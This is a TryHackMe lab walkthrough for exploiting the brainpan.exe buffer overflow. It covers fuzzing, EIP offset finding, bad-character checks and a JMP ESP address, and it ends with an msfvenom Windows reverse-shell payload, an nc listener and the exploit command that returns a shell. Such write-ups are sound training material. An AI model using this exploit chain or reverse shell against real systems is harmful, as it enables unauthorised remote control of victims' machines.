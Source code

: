 # brainpan.exe - Buffer Overflow Prep - TryHackMe

Writeup for the **brainpan.exe** app available in the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) room from [TryHackMe](https://tryhackme.com/).

Steps for exploiting the **brainpan.exe** application:
1. Know your app
2. Fuzz
3. Find EIP offset
4. Test for bad chars
5. Exploit!

## Set up

* Attacker: Kali Linux, IP 192.179.80.177
* Target: Windows 7 VM, IP 192.168.90.136
  * [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
  * [mona.py](https://github.com/corelan/mona)

## 1. Know your app

Interact with the app and take note of the expected input.
```
nc -nv 192.168.90.136
```


...



## 2. Fuzz

Fuzz the application to test for buffer overflow. You can use [SPIKE](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/) (generic_send_tcp), a tool already available at most Kali Linux installs, or your own script.

In this case, I used a somewhat generic script I created for fuzzing TCP applications: [sock-stream-fuzz.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Run the application in Immunity Debugger and execute the fuzzer:
```
./sock-stream-fuzz.py --rhost=192.168.90.136 --rport=9999 -f --buffstep=200
```


Application crashed with 600 bytes!

We can see in the debugger that the EIP registry was overwriten:



Testing the application with a buffer head, we can see that we were also able to write to memory positions pointed by EDX and ESP. 
```
./ig-buffer-overflow.py -m test --rhost=192.168.90.136 --rport=9999 --buffsize=1000 --buffhead='HELLO '
```



## 3. Find EIP offset

To find the EIP offset, send a cyclic pattern to the application (the value writen in EIP will be checked against the pattern and the offset will be found).

For this and the next steps I will be using a custom script I created: [ig-buffer-overflow.py](https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow). Please feel free to use it and/or contribute to it.

Re-run the application in the debugger and send the cyclic string:
```
./ig-buffer-overflow.py -m cyclic --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead=''
```



Check offset:
```
./ig-buffer-overflow.py -m checkoffset --value=35724134 --length=600
Offset for length 600: 524
```

## 4. Test for bad chars

Write bad chars to found memory position to find out which chars we have to exclude from our exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=600 --buffhead='' --offset=524 --hexcontent=BBBBBBBB --before=badchar --exclude=00 --nopsb=2
```



!mona config -set workingfolder c:\temp

!mona bytearray

!mona compare -f c:\monalogs\brainpan_2164\bytearray.bin -a 005FF80B



## 5. Find JMP instruction

!mona jmp -n -r ESP



JMP ESP address = 0x311712f3

Set breakpoint at 0x311712f3 and test it writing even more bytes to the application (the following command also adds some nops before and after write content):

./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=BBBB --nopsa=4 --before=CCCC --nopsb=10



## 6. Exploit!

Generate shellcode:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=192.168.80.177 LPORT=443 -f hex EXITFUNC=thread -o reverse
```

Set up handler:
```
sudo rlwrap -a nc -lvnp 443
```

Exploit:
```
./ig-buffer-overflow.py -m write --rhost=192.168.90.136 --rport=9999 --buffsize=1200 --buffhead='' --offset=524 --hexcontent=l311712f3 --after=shellcode --nopsa=10 --shellcode=reverse2


```

Got the shell!!





THE END!
